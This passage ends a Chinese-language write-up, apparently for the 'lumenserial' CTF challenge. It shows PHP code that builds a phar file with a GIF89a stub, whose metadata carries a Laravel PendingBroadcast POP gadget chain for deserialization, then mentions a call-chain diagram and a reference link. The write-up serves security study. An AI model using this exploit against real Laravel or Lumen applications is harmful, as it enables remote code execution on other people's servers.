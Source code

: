 ```
    $pendingbroadcast = new IlluminateBroadcastingPendingBroadcast($traceableeventdispatcher,$parameters);
    $o = $pendingbroadcast;

    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar-&gt;startBuffering();
    $phar-&gt;setStub("GIF89a&lt;?php __HALT_COMPILER(); ");
    $phar-&gt;setMetadata($o);
    $phar-&gt;addFromString("foo.txt","bar");
    $phar-&gt;stopBuffering();
`}`
?&gt;
```

我们再通过下面这张图片，来理清整个 **POP链** 的调用过程。

[![](https://p2.ssl.qhimg.com/t01cc6e67c4f4dd13be.png)](https://p2.ssl.qhimg.com/t01cc6e67c4f4dd13be.png)



## 参考

[Code Breaking 挑战赛 — lumenserial](http://m4p1e.com/web/20181224.html)

